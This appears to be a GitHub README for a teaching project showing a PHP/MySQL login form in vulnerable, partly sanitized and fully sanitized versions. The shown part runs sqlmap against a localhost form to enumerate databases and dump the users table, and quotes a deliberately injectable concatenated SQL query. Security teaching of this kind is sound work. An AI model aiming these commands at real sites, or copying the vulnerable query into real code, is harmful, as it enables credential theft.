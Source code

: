 <h1 align="center">Secure Login System</h1>

We created a login system, for the backend we use PHP and MySQL for the database and on the frontend we used HTML/CSS. 
The purpose of this project is to show how code becomes vulnerable to SQL injection.
We will analyze and perform SQL Injection attacks and Cross-Site Scripting attacks to see how they work when we do not secure the appropriate code. 
We'll use some attack tools like SQLMap. 

The project has three parts:

1.Secure Login System with Non-Sanitizing Code
Attacks like SQL Injection work here, as well as attacks like Cross-Site Scripting (XSS).
    This code is intentionally vulnerable to demonstrate:

    How legacy PHP applications become vulnerable
    Why string concatenation in SQL is dangerous
    How sqlmap and other tools exploit these weaknesses
    The importance of modern PHP security practices

2.Secure Login System with Partial Sanitizing Code
Attacks like SQL Injection don't work here, but there are some vulnerabilities related to Cross-Site Scripting (XSS).

3.Secure Login System with Complete Sanitizing Code
In this part, we have protected the code against both threats. Also, I will show you how to implement CAPTCHA for brute force protection.

![Sqlmap](https://raw.githubusercontent.com/cipriancyberspace/securewebapplication/99e7e8d24c04397303853220b9ae101d9e12e940/Secure_Login_System/images/sqlmap.png)



Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/ee5612aa8bd9970e35df345d5f98699db35a3003/Secure_Login_System/images/sqlmap_1.png)

<strong> 1.SQLMap Command Breakdown: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" --data="username=test&password=test" --dbs --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/1bf4ec6c5278162c33acfffa401df1ce9bfb6bfb/Secure_Login_System/images/sqlmap_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/eff2084c859e84b41a33be3071eaf471de9b0d7e/Secure_Login_System/images/sqlmap_2.png)

<strong> 2.Explore your database: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db --tables --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/9086268e64a0716507f5dc933ce2bfb70513775b/Secure_Login_System/images/sqlmap_4.png)

<strong> 3.Dump user data: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --dump --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/f0b283ed11636000979a965a8ce7c080b99c5ea2/Secure_Login_System/images/sqlmap_5.png)

<strong> 4.Get database schema: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --columns --batch</code> </pre>

![Sqlmap]()



⚠️ Why This Works 
Vulnerable PHP code:
<pre> <code>$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>
SQLMap exploits this by injecting payloads that break out of the SQL query, allowing it to execute additional SQL commands to enumerate databases.




